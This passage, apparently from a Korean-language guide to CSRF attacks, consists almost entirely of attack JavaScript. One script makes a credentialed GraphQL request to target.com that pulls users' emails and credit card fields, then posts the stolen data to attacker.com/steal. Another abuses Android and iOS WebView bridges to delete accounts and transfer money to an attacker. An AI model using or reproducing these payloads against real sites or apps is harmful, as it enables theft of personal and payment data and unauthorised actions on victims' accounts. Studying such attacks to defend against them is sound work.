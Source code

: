 ```javascript
                    id
                    role
                }
            }
        `
    }),
    credentials: 'include'
});

// GraphQL을 통한 데이터 추출
fetch('http://target.com/graphql', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        query: `
            query {
                users {
                    id
                    username
                    email
                    creditCard
                }
            }
        `
    }),
    credentials: 'include'
}).then(response => response.json())
  .then(data => {
      // 데이터를 공격자 서버로 전송
      fetch('http://attacker.com/steal', {
          method: 'POST',
          body: JSON.stringify(data)
      });
  });
```

### 3.6. 모바일 앱 CSRF

#### 3.6.1. WebView 기반 공격
```javascript
// 안드로이드 WebView에서 CSRF 공격
function mobileCSRFAttack() {
    // 앱 내 WebView에서 실행되는 JavaScript
    if (typeof Android !== 'undefined') {
        // 안드로이드 앱의 JavaScript Interface 악용
        Android.performSensitiveAction('delete_account');
    }
    
    // iOS WKWebView의 경우
    if (window.webkit && window.webkit.messageHandlers) {
        window.webkit.messageHandlers.nativeHandler.postMessage({
            action: 'transfer_money',
            amount: 10000,
            to_account: 'attacker'
        });
    }
}
```
